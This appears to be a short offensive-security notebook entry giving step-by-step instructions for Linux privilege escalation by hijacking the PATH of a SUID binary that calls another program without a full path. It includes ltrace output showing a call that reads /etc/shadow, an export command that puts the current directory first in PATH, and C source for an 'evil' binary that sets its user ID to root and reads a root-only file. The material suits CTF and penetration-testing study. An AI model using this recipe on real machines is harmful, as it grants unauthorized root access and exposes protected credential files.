 # Unsanitized Path
#unsanitizedpath 

Attention:
if `sudo -l` includes `env_reset`, this can't be used.

1. Search for suid binaries (see [[Security/Offensive/Linux/LPE]])
2. Check if binary calls other binaries without full path via `ltrace` and `strace`
```
XXXXXXXXXX:~$ ltrace ./backup 
__libc_start_main(0x804841d, 1, 0xbffff7d4, 0x8048440 <unfinished ...>
system("cat /etc/shadow"cat: /etc/shadow: Permission denied
 <no return ...>
--- SIGCHLD (Child exited) ---
```
3.  Add local path (`pwd`) to the start of the the `$PATH` var
`export PATH=<pwd-output>:$PATH`
5.  Place a evil bin with the name of the unsanitized bin in the current folder, for example:
demo.c:
```
#include<unistd.h>
void main(){
        setuid(0);
        setgid(0);
        system("more /root/root.txt");
}
```
`gcc demo.c -o <name-of-evil-bin>`
But any executable file can be used.
6. Run the vulnerable binary
7. `$$$`
